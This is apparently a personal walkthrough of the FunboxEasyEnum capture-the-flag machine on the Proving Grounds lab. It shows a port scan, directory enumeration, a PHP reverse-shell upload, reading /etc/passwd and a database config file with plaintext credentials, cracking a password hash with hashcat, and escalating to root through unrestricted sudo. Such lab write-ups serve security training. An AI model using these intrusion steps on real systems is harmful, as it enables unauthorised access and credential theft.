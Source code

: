 ![](attachment/93250afd83aff038b608942734b9a111.jpg)

On a lazy Saturday morning, August 17, 2024, I embarked on a thrilling adventure in the world of Offensive Security, tackling the FunboxEasyEnum box on the Proving Grounds Play labs. This easy-level warmup machine was the perfect way to kick-start my journey, and I'm excited to share my experience with you.

### Port Scan

From port scan we got:

```
nmap -sC -sV -A -T4 -p- 192.168.235.132  -o scan 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-14 08:12 EDT
Nmap scan report for 192.168.235.132
Host is up (0.075s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9c:52:32:5b:8b:f6:38:c7:7f:a1:b7:04:85:49:54:f3 (RSA)
|   256 d6:13:56:06:15:36:24:ad:65:5e:7a:a1:8c:e5:64:f4 (ECDSA)
|_  256 1b:a9:f3:5a:d0:51:83:18:3a:23:dd:c4:a9:be:59:f0 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.77 seconds

```


### Enumeration 

Ran gobuster for directory enumeration:

![](attachment/8056c88ec9d48a1a73583502575dc7a7.png)

Only /phpmyadmin is accessible
![](attachment/2f1137ed6b04c6e54a3555ea3b74f8bb.png)

Analyzing burp request found that /phpmyadmin/js/whitelist.php and /js/messages.php are readable:
![](attachment/0bc35d213b3744dff25955d61e5c3dc7.png)

Nothing interesting here, re run enumeration with gobuster filtering for php file:

![](attachment/343af38a849df0558dcd46d857f37a9b.png)

Try mini.php:

![](attachment/4d78da8958ab8e7f54fd207350384649.png)
### Access

I uploaded a shell.php while listening on my kali:

![](attachment/c776a86f8411bde6fc6f25428c54b0c8.png)

```shell
lrwxrwxrwx   1 root root        31 Sep 18  2020 vmlinuz.old -> boot/vmlinuz-4.15.0-117-generic
$ cd /var/www/ 
$ ls
html
local.txt
$ cat local.txt
896e80f60f8536d18c123448e656a7fc
$ 

```

Found first flag


```shell
www-data@funbox7:/etc$ cat passwd
cat passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
karla:x:1000:1000:karla:/home/karla:/bin/bash
mysql:x:111:113:MySQL Server,,,:/nonexistent:/bin/false
harry:x:1001:1001:,,,:/home/harry:/bin/bash
sally:x:1002:1002:,,,:/home/sally:/bin/bash
goat:x:1003:1003:,,,:/home/goat:/bin/bash
oracle:$1$|O@GOeN\$PGb9VNu29e9s6dMNJKH/R0:1004:1004:,,,:/home/oracle:/bin/bash
lissy:x:1005:1005::/home/lissy:/bin/sh
www-data@funbox7:/etc$ 

```

There's an hash in passwod

```shell
hashcat -m 500 oracle_hash
found:hiphop

```

Regain the revshell and from www-data run sudo su

``` shell
www-data@funbox7:/etc/phpmyadmin$ ls
ls
apache.conf    config.footer.inc.php  htpasswd.setup      phpmyadmin.service
conf.d         config.header.inc.php  lighttpd.conf
config-db.php  config.inc.php         phpmyadmin.desktop
www-data@funbox7:/etc/phpmyadmin$ cat config-db.php
cat config-db.php
<?php
##
## database access settings in php format
## automatically generated from /etc/dbconfig-common/phpmyadmin.conf
## by /usr/sbin/dbconfig-generate-include
##
## by default this file is managed via ucf, so you shouldn't have to
## worry about manual changes being silently discarded.  *however*,
## you'll probably also want to edit the configuration file mentioned
## above too.
##
$dbuser='phpmyadmin';
$dbpass='tgbzhnujm!';
$basepath='';
$dbname='phpmyadmin';
$dbserver='localhost';
$dbport='3306';
$dbtype='mysql';

```

Now we can log in phpmyadmin

![](attachment/4f8c1e0352e5cffceb06abbef4a03b5b.png)

```
sudo su karla:tgbzhnujm! 
```

Let's see what karla can run

``` shell
karla@funbox7:~$ sudo -l
[sudo] password for karla: 
Matching Defaults entries for karla on funbox7:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User karla may run the following commands on funbox7:
    (ALL : ALL) ALL

```

Run sudo su with its password:
```
karla@funbox7:~$ sudo su
root@funbox7:/home/karla# ls
root@funbox7:/home/karla# cd /root/root.txt
bash: cd: /root/root.txt: No such file or directory
root@funbox7:/home/karla# cd /root
root@funbox7:~# ls
proof.txt  root.flag
root@funbox7:~# 
```

![](attachment/23b8ace2c3ef681dca18c48344780c46.png)


# Flags

```
local:896e80f60f8536d18c123448e656a7fc
proof.txt: d0a70330bf49d3799b000cbe3d7ec011
```

